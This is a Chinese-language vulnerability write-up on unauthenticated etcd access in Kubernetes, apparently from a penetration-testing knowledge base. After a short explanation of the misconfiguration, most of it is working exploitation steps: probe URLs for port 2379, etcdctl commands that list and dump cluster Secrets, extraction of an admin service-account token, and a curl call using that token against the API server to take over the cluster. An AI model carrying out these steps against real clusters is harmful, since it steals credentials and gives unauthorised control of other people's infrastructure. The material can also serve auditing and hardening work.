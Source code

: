 # K8s etcd未授权访问

## 漏洞描述

etcd 是云原生架构中重要的基础组件。etcd 在微服务和 Kubernates 集群中不仅可以作为服务注册于发现，还可以作为 key-value 存储的中间件，为 k8s 集群提供底层数据存储，保存了整个集群的状态。

在 K8s 集群初始化后，etcd 默认就以 pod 的形式存在，可以执行如下命令进行查看，etcd 组件监听的端口为 2379，并且对外开放。

```
kubectl get pods -A | grep etcd
```

在 etcd 的配置文件 /etc/kubernetes/manifests/etcd.yaml 中，--client-cert-auth 默认为 true，这意味着访问 etcd 服务需要携带 cert 进行认证。

如果目标在启动 etcd 的时候没有开启证书认证选项，且 2379 端口直接对外开放的话，则存在 etcd 未授权访问漏洞。

etcdctl 下载地址：https://github.com/etcd-io/etcd

## 漏洞复现

### 查看是否存在未授权访问

访问以下链接，查看是否存在未授权访问。

```
https://your-ip:2379/version
-------------
返回如下则存在未授权访问：
{etcdserver: "3.4.3", etcdcluster: "3.4.0"} 
```

```
https://your-ip:2379/v2/keys
-------------
返回如下则存在未授权访问：
{"action":"get","node":{"dir":true,"nodes":...}}
```

### 查找 Token 接管集群

由于 Service Account 关联了一套凭证，存储在 Secret 中。因此我们可以过滤 Secret，查找具有高权限的 Secret，然后获得其 token 接管 K8s 集群。

```
#查找所有的 secret
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get / --prefix --keys-only|sort|uniq| grep secret
```

以 `/registry/secrets/kube-system/dashboard-admin-token-c7spp` 为例，查看指定 secret 保存的证书和 token：

```
#查找指定 secret 保存的证书和 token
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get /registry/secrets/kube-system/dashboard-admin-token-c7spp
```

最终的 token 为 `token?` 和 `\#kubernetes.io/service-account-token` 之间的部分。可以使用 curl 验证 token 的有效性：

```
curl --header "Authorization: Token" -X GET https://your-ip:6443/api -k
```

然后，就可以使用 token 登录 dashboard 或者远程命令管理 K8s。
